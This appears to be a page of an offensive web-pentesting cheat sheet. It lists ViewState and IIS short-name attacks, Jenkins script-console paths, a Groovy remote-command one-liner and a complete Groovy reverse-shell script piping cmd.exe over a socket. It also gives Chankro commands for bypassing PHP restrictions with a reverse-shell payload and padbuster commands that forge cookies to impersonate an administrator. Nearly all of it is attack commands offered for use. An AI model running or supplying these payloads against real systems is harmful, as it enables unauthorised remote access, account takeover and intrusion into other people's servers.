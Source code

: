 ```
#ViewState:
https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC

#WebResource.axd:
https://github.com/inquisb/miscellaneous/blob/master/ms10-070_check.py

#ShortNames
https://github.com/irsdl/IIS-ShortName-Scanner
java -jar iis_shortname_scanner.jar 2 20 http://domain.es

#Jenkins
JENKINSIP/PROJECT//securityRealm/user/admin
JENKINSIP/jenkins/script

#Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";
#Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# Joomscan
joomscan -u  http://10.11.1.111
joomscan -u  http://10.11.1.111 --enumerate-components

# PHP bypass disable_functions and open_basedir
# Chankro
https://github.com/TarlogicSecurity/Chankro
python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html

# Cookies error padding:
# Get cookie structure
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding"
# Get cookie for other user (impersonation)
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding" -plaintext 'user=administratorme'
```


### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

